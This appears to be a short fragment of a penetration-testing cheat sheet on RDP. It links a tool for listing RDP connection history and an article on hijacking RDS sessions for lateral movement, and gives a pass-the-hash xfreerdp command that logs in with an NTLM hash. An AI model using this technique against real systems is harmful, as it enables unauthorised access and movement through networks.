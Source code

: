 ## Tools

- List the RDP Connections History: https://github.com/3gstudent/List-RDP-Connections-History
- RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation: https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6

## PTH 
```
xfreerdp /u:testing /d:thinc /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:192.168.1.23
```